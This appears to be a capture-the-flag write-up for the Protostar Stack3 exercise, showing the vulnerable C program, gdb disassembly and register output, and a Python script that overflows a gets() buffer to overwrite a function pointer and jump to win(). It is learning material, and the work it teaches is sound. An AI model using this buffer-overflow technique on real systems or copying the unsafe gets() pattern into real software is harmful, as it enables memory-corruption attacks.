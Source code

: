 Our goal is to solve this explotation challenge <i> [Stack3](https://exploit.education/protostar/stack-three/)</i>
by redirecting code to function win

# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```
## Problem of code
In this code we have a function-pointer placed in stack, which will be called if its value 
is different than zero. We also have a gets function which is dangerous because it doesn't 
know in advance how many characters will be read.


We will execute the programm with gdb to have a view of the assembly code.

```c
0x08048438 <main+0>:	push   %ebp
0x08048439 <main+1>:	mov    %esp,%ebp
0x0804843b <main+3>:	and    $0xfffffff0,%esp
0x0804843e <main+6>:	sub    $0x60,%esp
0x08048441 <main+9>:	movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:	lea    0x1c(%esp),%eax
0x0804844d <main+21>:	mov    %eax,(%esp)
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    $0x8048560,%eax
0x08048461 <main+41>:	mov    0x5c(%esp),%edx
0x08048465 <main+45>:	mov    %edx,0x4(%esp)
0x08048469 <main+49>:	mov    %eax,(%esp)
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret
```

The problem in this case is when we move a value from the stack to %eax and then call %eax.

```c
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
```

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that %eax 
will be equal to 0x51515151 before <main+61>.


```c
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
(gdb) b *main +61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack3 < /home/user/tmp
calling function pointer, jumping to 0x51515151

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers 
eax            0x51515151	1364283729
ecx            0x0	0
edx            0xb7fd9340	-1208118464

```

We know that the ASCII value 0x51 is letter Q so our exploit string will be 
"AAAABBBBCCCC....OOOOPPPP"+ the address of function win 

We obtain from gdb the address of function win

```c
(gdb) x win
0x8048424 <win>:	0x83e58955
```

And then with this python code we will do the final explotation

```python
import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string = string.split("QQQQ")[0]
        string = string + struct.pack("I",0x08048424)

        print(string)
```



```
user@protostar:~$ python stack3.py | /opt/protostar/bin/stack3

calling function pointer, jumping to 0x08048424
code flow successfully changed

user@protostar:~$ 

```

